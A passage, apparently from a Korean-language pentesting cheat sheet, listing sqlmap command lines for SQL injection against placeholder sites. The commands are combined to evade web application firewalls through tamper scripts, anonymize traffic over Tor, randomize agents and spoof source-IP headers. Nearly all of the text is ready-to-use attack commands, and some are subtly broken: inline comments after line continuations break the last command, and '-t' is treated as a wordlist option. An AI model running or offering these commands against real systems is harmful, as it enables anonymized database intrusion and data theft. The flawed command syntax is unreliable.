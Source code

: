 | `-u URL`            | 요청 보낼 대상 URL (주로 GET 방식)              |
| `--data`            | POST 요청 시 보낼 데이터 (본문)                 |

##### WAF 우회 기법 조합

```bash
# 고급 WAF 우회 + Tor
sqlmap -u "http://target.com/search.php?q=test" \
  --tor --tor-type=SOCKS5 --check-tor \
  --tamper=space2comment,charencode,randomcase \
  --random-agent --delay=3 --timeout=60 \
  --headers="X-Forwarded-For:127.0.0.1" \
  --headers="X-Real-IP:127.0.0.1" \
  --technique=B --risk=3 --level=5


# 일반 sqlmap
sqlmap -u "http://example.com/page.php?id=1" --common-tables -t /path/to/SecLists/Discovery/Web-Content/common-tables.txt

# tor + sqlmap
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --common-tables \
  -t /path/to/SecLists/Discovery/Web-Content/common-tables.txt \
  --random-agent \
  --delay=3 \
  --timeout=15 \
  --retries=3 \
  --batch

# 랜덤 지연
sqlmap -u "http://example.com/page.php?id=1" --tor --tor-type=SOCKS5 --delay=3 --time-sec=5 --randomize=length --safe-url="http://example.com/" --safe-freq=10


# DBMS
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --dbms=mysql \  # 특정 DBMS 대상으로 최적화
  --common-tables \
  -t /path/to/SecLists/Discovery/Web-Content/MySQL.txt \
  --level=5 \    # 테스트 레벨 증가 (더 철저한 검사)
  --risk=3 \     # 위험도 증가 (더 공격적인 테스트)
  --threads=2 \  # Tor 네트워크에서는 스레드 수를 낮게 유지
  --hex \        # 특수 문자를 HEX 인코딩
  --output-dir=/tmp/sqlmap_results  # 결과 저장 디렉토리 지정


```
